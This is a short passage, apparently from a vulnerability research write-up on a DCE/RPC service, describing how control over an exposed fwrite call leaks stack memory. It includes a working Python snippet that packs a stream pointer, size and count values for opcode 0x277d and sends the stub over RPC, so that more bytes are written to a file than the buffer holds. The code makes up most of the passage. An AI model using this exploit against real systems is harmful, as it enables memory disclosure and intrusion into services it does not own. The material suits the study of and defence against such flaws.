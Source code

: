 <img src="img/Fig7.png" width="300">

`fwrite` takes 4 parameters while the value of `stream` is obtained from `fopen`.
We can control the value of `size` and `count` of `fwrite` call. Thus, we can write the value on stack to target file if our buffer size is smaller then the total number of elements determined by parameter `size` and `count`.

```python
# file write
opcode = 0x277d
buf = fstream # *stream
buf += struct.pack("<L", 0x1) # size
buf += struct.pack("<L", 0x1000) # nmemb
buf += struct.pack("<L", 0x61616161) # buffer to write
buf += struct.pack("<L", 0x00) # buffer to write
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
res = call(dce, 1, stubdata)
print(res)
```


## fclose (0x277b)
<img src="img/Fig8.png" width="300">
